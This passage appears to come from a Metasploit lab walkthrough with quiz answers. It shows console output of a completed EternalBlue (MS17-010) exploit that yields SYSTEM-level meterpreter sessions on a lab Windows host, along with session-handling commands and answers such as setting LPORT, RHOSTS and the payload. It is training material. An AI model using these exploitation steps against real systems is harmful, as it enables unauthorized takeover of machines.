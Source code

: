   Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 >
```

To interact with any session, you can use the ```sessions -i ``` command followed by the desired session number.


#### Interacting with sessions
```
msf6 > sessions
```
```
Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)
```
```
msf6 > sessions -i 2
```
```
[*] Starting interaction with 2...
meterpreter >
```


How would you set the LPORT value to 6666?
```
set LPORT 6666
```
How would you set the global value for RHOSTS  to 10.10.19.23 ?
```
setg rhosts 10.10.19.23
```
What command would you use to clear a set payload?
```
unset payload
```
What command do you use to proceed with the exploitation phase?
```
exploit
```

Task 5  Summary
```